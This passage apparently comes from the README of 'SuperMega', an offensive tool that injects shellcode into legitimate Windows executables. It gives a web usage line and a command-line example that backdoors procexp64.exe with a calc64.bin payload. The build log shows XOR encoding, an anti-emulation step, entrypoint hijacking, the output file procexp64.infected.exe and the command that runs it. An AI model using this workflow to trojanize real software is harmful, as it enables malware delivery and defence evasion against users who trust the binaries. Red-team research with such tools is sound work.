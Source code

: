 Adjust paths as necessary. This should make `cl.exe` and `Windows.h` available, which are required for 
compilation of the carrier shellcode.


## Usage Web

```
> ./web.py
```

Browse to `http://localhost:5001".


## Usage Command LIne

Example to inject `calc64.bin` shellcode into `procexp64.exe`:

```
PS C:\Users\dobin\Repos\SuperMega> cmd.exe /k "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvarsall.bat" x64
**********************************************************************
** Visual Studio 2022 Developer Command Prompt v17.12.4
** Copyright (c) 2022 Microsoft Corporation
**********************************************************************
[vcvarsall.bat] Environment initialized for: 'x64'

C:\Users\dobin\Repos\SuperMega>python.exe supermega.py
(helper.py       ) Write project to: projects/commandline/project.pickle
(project.py      ) -[ Cleanup project: commandline
(payload.py      ) -[ Payload: data/binary/shellcodes/calc64.bin
(payload.py      )     Size: 272 bytes
(templater.py    ) -[ Carrier create Template: projects/commandline/main.c
(templater.py    )     Carrier: alloc_rw_rx
(templater.py    )     Carrier: Code into: .text
(templater.py    )     Carrier: Decoder: xor_2
(templater.py    )     Carrier: Invoker: backdoor Entrypoint
(templater.py    )     Carrier AntiEmulation: sirallocalot
(templater.py    )     Carrier Guardrail: none
(templater.py    )     Carrier Decoy: none
(compiler.py     ) -[ Carrier: Compile C to ASM
(compiler.py     )     Carrier: projects/commandline/main.c -> projects/commandline/main.asm
(helper.py       )    > Run process: cl.exe /c /FA /GS- /Faprojects/commandline/ projects/commandline/main.c
(assembler.py    ) -[ Carrier: ASM to EXE
(assembler.py    )     Carrier: projects/commandline/main.asm -> projects/commandline/main.exe
(helper.py       )    > Run process: ml64.exe projects/commandline/main.asm /link /OUT:projects/commandline/main.exe /entry:AlignRSP
(assembler.py    )     Carrier Size: 590
(injector.py     ) -[ Injecting Carrier
(injector.py     )     Injectable: data/binary/injectables/procexp64.exe -> projects/commandline/procexp64.infected.exe
(injector.py     )     Checking if IAT entries required by carrier are available
(injector.py     )     IAT entries missing: 0
(injector.py     )     Inject: Write Carrier to 0x71C8D (0x7108D)
(injector.py     )     Backdoor function at entrypoint (0xE1D78)
(injector.py     )     Inject Carrier data into injectable .rdata/.text
(injector.py     )     Patch Carrier code to reference the injected data
(injector.py     ) -[ Write to file: projects/commandline/procexp64.infected.exe

> C:\Users\dobin\Repos\SuperMega>.\projects\commandline\procexp64.infected.exe
```
